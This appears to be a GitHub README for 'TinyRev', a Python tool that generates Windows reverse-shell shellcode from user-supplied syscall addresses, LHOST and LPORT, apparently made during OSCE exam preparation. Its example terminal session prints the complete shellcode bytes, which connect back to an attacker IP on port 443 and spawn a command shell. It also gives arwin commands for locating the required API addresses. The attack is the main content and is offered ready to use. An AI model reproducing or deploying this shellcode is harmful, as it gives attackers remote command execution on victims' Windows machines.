 ## TinyRev

This is just a wrapper on absolomb's reverse shell they describe [on their blog](https://www.absolomb.com/2018-07-24-VulnServer-GTER/). This will literally just create the shellcode based on configurable syscall addresses, LHOST, and LPORT arguments, you still have to make sure your stack-alignment is correct. The shellcode should be 120 bytes long. 

**Warning**, this wrapper is very hacky and probably not very useful lol but I was very bored today. I'm pretty sure ASLR kills this approach.

## Usage

Default usage:
`python tinyrev.py`

To get the command line syntax you need for arwin.exe to find the syscall addresses:
`python tinyrev.py -a, --arwin`

## Example

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py                                    
Enter WSASocketA address (example - 7718E562): 7718E562
Enter LHOST IP (example - 192.168.1.211): 192.168.1.211
Enter LPORT (example - 443): 443
Enter connect address (example - 7718E562): 771868f5
Enter CreateProcessA address (example - 7718E562): 76a42082
Enter variable name for shellcode: revshell


revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x62"
revshell += "\xe5\x18\x77\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x01\xd3\x66\x68\x01"
revshell += "\xbb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xf5"
revshell += "\x68\x18\x77\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1"
revshell += "\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1"
revshell += "\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04"
revshell += "\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51"
revshell += "\x52\xbb\x82\x20\xa4\x76\xff\xd3"


STACK ALIGNMENT NOT INCLUDED! ;)
```

## Example 2

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py --arwin                            
To Retrieve WSASocketA Address: arwin.exe ws2_32 WSASocketA
To Retrieve connect Address: arwin.exe ws2_32 connect
To Retrieve CreateProcessA Address: arwin.exe kernel32 CreateProcessA
```

## Thanks to absolomb who is a genius.


